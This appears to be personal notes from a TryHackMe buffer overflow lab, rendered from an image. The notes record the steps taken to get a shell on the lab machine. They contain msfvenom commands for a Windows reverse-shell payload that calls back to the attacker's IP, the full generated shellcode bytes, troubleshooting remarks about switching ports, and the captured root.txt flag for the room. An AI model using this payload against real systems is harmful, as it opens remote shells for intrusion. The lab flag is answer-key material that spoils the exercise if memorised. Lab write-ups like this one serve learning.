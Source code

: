 
### shellcode

create some shell code: `msfvenom -p windows/shell_reverse_tcp LHOST=172.16.2.106 LPORT=4444 EXITFUNC=thread -b "\x00" -f c`

## Buffer Overflow: Live Target

NOTE: dev machine ip in shellcode needs to change to my tun0 (VPN) interface IP, and the ip address of the destination server in the python script needs to point to THM box.

After trying the exact same shellcode but changing for the THM LHOST, I failed to get a shell.... suggestion from a stream follower said "try on a legit or lower port, not 4444".

I re-created my reverse shellcode, with port 80

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.55.83 LPORT=80 EXITFUNC=thread -b "\x00" -f c
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1500 bytes
unsigned char buf[] =
"\xdb\xda\xb8\x4c\xf0\x7a\x5c\xd9\x74\x24\xf4\x5b\x31\xc9\xb1"
"\x52\x31\x43\x17\x03\x43\x17\x83\x8f\xf4\x98\xa9\xf3\x1d\xde"
"\x52\x0b\xde\xbf\xdb\xee\xef\xff\xb8\x7b\x5f\x30\xca\x29\x6c"
"\xbb\x9e\xd9\xe7\xc9\x36\xee\x40\x67\x61\xc1\x51\xd4\x51\x40"
"\xd2\x27\x86\xa2\xeb\xe7\xdb\xa3\x2c\x15\x11\xf1\xe5\x51\x84"
"\xe5\x82\x2c\x15\x8e\xd9\xa1\x1d\x73\xa9\xc0\x0c\x22\xa1\x9a"
"\x8e\xc5\x66\x97\x86\xdd\x6b\x92\x51\x56\x5f\x68\x60\xbe\x91"
"\x91\xcf\xff\x1d\x60\x11\x38\x99\x9b\x64\x30\xd9\x26\x7f\x87"
"\xa3\xfc\x0a\x13\x03\x76\xac\xff\xb5\x5b\x2b\x74\xb9\x10\x3f"
"\xd2\xde\xa7\xec\x69\xda\x2c\x13\xbd\x6a\x76\x30\x19\x36\x2c"
"\x59\x38\x92\x83\x66\x5a\x7d\x7b\xc3\x11\x90\x68\x7e\x78\xfd"
"\x5d\xb3\x82\xfd\xc9\xc4\xf1\xcf\x56\x7f\x9d\x63\x1e\x59\x5a"
"\x83\x35\x1d\xf4\x7a\xb6\x5e\xdd\xb8\xe2\x0e\x75\x68\x8b\xc4"
"\x85\x95\x5e\x4a\xd5\x39\x31\x2b\x85\xf9\xe1\xc3\xcf\xf5\xde"
"\xf4\xf0\xdf\x76\x9e\x0b\x88\x72\x54\x24\x1b\xeb\x68\x4a\x9b"
"\xbb\xe5\xac\xf1\x2b\xa0\x67\x6e\xd5\xe9\xf3\x0f\x1a\x24\x7e"
"\x0f\x90\xcb\x7f\xde\x51\xa1\x93\xb7\x91\xfc\xc9\x1e\xad\x2a"
"\x65\xfc\x3c\xb1\x75\x8b\x5c\x6e\x22\xdc\x93\x67\xa6\xf0\x8a"
"\xd1\xd4\x08\x4a\x19\x5c\xd7\xaf\xa4\x5d\x9a\x94\x82\x4d\x62"
"\x14\x8f\x39\x3a\x43\x59\x97\xfc\x3d\x2b\x41\x57\x91\xe5\x05"
"\x2e\xd9\x35\x53\x2f\x34\xc0\xbb\x9e\xe1\x95\xc4\x2f\x66\x12"
"\xbd\x4d\x16\xdd\x14\xd6\x36\x3c\xbc\x23\xdf\x99\x55\x8e\x82"
"\x19\x80\xcd\xba\x99\x20\xae\x38\x81\x41\xab\x05\x05\xba\xc1"
"\x16\xe0\xbc\x76\x16\x21";
```

Ran it again, and got a shell:

root.txt = `5b1001de5a44eca47eee71e7942a8f8a` under `C:\Users\drake\Desktop\root.txt`
